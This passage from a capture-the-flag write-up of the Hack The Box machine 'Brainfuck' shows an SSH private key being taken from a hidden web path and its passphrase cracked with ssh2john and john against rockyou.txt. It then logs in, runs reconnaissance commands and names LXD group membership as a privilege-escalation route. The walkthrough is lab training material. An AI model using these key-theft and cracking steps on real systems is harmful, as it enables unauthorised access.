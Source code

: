 <br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_56.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_57.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I can now download the **key** of the path that I have just deciphered to connect via **SSH**, unfortunately it has a password. I already have some experience with this problem, I just need to get the **hash** of the file with `ssh2john` and then with `john` get the password, in case it is in the dictionary **rockyou.txt**. I am lucky and in a very short time `john` gets the password. Now if I succeed to connect via **SSH** and perform the basic reconnaissance commands to collect information that allows me to know the **Operating System** and possible vectors to **Escalate Privileges**. He confirms that the Codename is **Xenial**, I can see the content of the first flag, with `id` I find out that the user belongs to the **LXD** group (<ins>possible vector</ins>) and I also find very interesting files related to the **RSA** encryption algorithm (I still don't know its purpose).

> **Attacker Machine**:

```bash
# https://brainfuck.htb/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa

chmod 600 id_rsa
ssh -i id_rsa orestis@brainfuck.htb
# Passphrase          :(

locate ssh2john
/usr/bin/ssh2john id_rsa > hash
john --wordlist=$(locate rockyou.txt)                                 # [Tab]
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john hash --show

ssh -i id_rsa orestis@brainfuck.htb
```

> **Victime Machine**:

```bash
whoami
hostname
hostname -I
uname -a
lsb_release -a
export TERM=xterm
id
# --> lxd     searchsploit lxd -> S4vitar!!
groups
```

<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_58.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_59.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_60.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_61.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/brainfuck_writeup/Brainfuck_62.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
